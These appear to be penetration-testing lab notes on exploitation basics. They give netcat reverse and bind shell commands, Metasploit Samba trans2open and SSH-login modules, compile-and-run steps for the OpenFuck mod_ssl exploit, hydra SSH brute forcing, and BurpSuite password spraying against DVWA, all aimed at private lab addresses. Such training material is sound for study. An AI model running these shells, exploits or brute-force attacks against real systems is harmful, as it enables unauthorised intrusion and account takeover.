










# Exploitation Basics

## Reverse shell vs Bind shell

➡️ [netcat](https://netcat.sourceforge.net/)

**Reverse shell** - the victim/target connects back to the attacker

- Attack machine - **listening** on a port
- Target machine - connect to the attacker machine listening port



```bash
# Attacker
nc -nvlp 4444

# Target
nc 192.168.31.131 4444 -e /bin/bash
```



**Bind shell** - the attacker opens a port on the target (via exploitation) and connects to it

- Attack machine - exploits target and opens port listening on target and connects to it
- Target machine - listens for the attacker connection



- Specially used on external assessment

```bash
# Target
nc -nvlp 4444 -e /bin/bash

# Attacker
nc 192.168.31.131 4444
```



---

## Staged vs Non-Staged payloads

**Non-Staged payload** - sends exploit shellcode all at once, larger in size and won't always work

- Metasploit e.g. `payload/windows/meterpreter_reverse_tcp`


**Staged payload** - sends payload in stages, less stable

- Metasploit e.g. `payload/windows/meterpreter/reverse_tcp`

---

## Metasploit (SMB attack)

```bash
searchsploit samba 2.2
```



```bash
# Run Metasploit
msfconsole

search trans2open
use exploit/linux/samba/trans2open
options

set RHOSTS 192.168.31.130
show targets

run
```

- This does not work, since it is using the `linux/x86/meterpreter/reverse_tcp` staged payload.
- Try with another payload

```bash
set payload linux/x86/shell_reverse_tcp
run
```



- Gained reverse shell via Metasploit

---

## Manual exploitation

Use [OpenLuck](https://github.com/heltonWernik/OpenLuck) to exploit [CVE-2002-0082](https://nvd.nist.gov/vuln/detail/CVE-2002-0082) - [Apache mod_ssl < 2.8.7 OpenSSL - Remote Buffer Overflow](https://nvd.nist.gov/vuln/detail/CVE-2002-0082)

- Follow usage instruction to compile the exploit and run it against the target machine

```bash
git clone https://github.com/heltonWernik/OpenFuck.git
sudo apt-get install libssl-dev
gcc -o OpenFuck OpenFuck.c -lcrypto

./OpenFuck

# check an offset for Apache 1.3.20 
# ./OpenFuck target box [port] [-c N]
```

```bash
./OpenFuck 0x6b 192.168.31.130 -c 40
```



---

## Brute force attacks

- Brute-force attack `SSH` with weak/default credentials

➡️ [hydra](https://github.com/vanhauser-thc/thc-hydra)

```bash
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.31.130 -t 4 -V
```

- Use the same with Metasploit

```bash
msfconsole

search ssh_login
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.31.130
set USERNAME root
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
PASS_FILE => /usr/share/wordlists/metasploit/unix_passwords.txt
set THREADS 10
set VERBOSE true
run
```

---

## Credential stuffing and Password spraying

[**Credential stuffing**](https://owasp.org/www-community/attacks/Credential_stuffing) - injecting breached account credentials (leaks, etc) in hopes of account takeover

[**Password spraying**](https://owasp.org/www-community/attacks/Password_Spraying_Attack) - brute forcing logins based on a list of usernames with default passwords

```bash
ls -lah /usr/share/seclists/Passwords/Leaked-Databases/
```

- Setup FoxyProxy in the browser and start BurpSuite.
- Use local vulnerable webapp like [dvwa](https://nvd.nist.gov/vuln/detail/CVE-2002-0082)

```bash
sudo apt install dvwa

dvwa-start
```

- Open the login page - [http://127.0.0.1:42001/vulnerabilities/brute/](http://127.0.0.1:42001/vulnerabilities/brute/)

**BurpSuite**

- Turn intercept ON and send the login request to intruder
- Highlight the username and password values, and add them to the payload positions
- Attack type - `Pitchfork`



- **Payloads**
  - for each payload set, paste the usernames list and password
  - Start the attack
    - check the response for Status change and Length






---

